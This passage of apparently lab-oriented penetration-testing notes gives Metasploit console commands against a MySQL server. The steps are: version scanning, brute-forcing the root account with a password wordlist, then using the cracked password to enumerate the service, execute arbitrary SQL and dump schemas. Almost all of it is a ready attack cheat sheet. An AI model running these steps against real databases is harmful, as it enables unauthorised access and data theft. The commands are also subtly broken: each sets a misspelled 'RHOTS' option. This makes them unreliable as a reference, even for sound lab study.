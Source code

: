 > This module can be used to `DELETE` the `test.txt` file.

#### MySQL Enumeration:

```msfconsole
use auxiliary/scanner/mysql/mysql_version
show options
set RHOTS <ip-address>
run
```

> This module can be used to find the module of the SQL running on the machine.

```msfconsole
use auxiliary/scanner/mysql/mysql_login
show options
set RHOTS <ip-address>
set USERNAME root
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set VERBOSE false
run
```

> This can be used to brute force my SQL user `root`.

```msfconsole
use auxiliary/admin/mysql/mysql_enum
show options
set USERNAME root
set PASSWORD twinkle
set RHOTS <ip-address>
run
```

***NOTE: THIS MODULE CAN ONLY RUN IF YOU HAVE VALID CREDS OF A USER ACCOUNT***

> This enumerates info. related to the SQL service running on the system.

```msfconsole
use auxiliary/admin/mysql/mysql_sql
show options
set USERNAME root
set PASSWORD twinkle
set RHOTS <ip-address>
set SQL <any-quary>
run
```

> This module can be used to execute SQL Commands.

```msfconsole
use auxiliary/scanner/mysql/mysql_schemadump
show options
set USERNAME root
set PASSWORD twinkle
set RHOTS <ip-address>
run
```
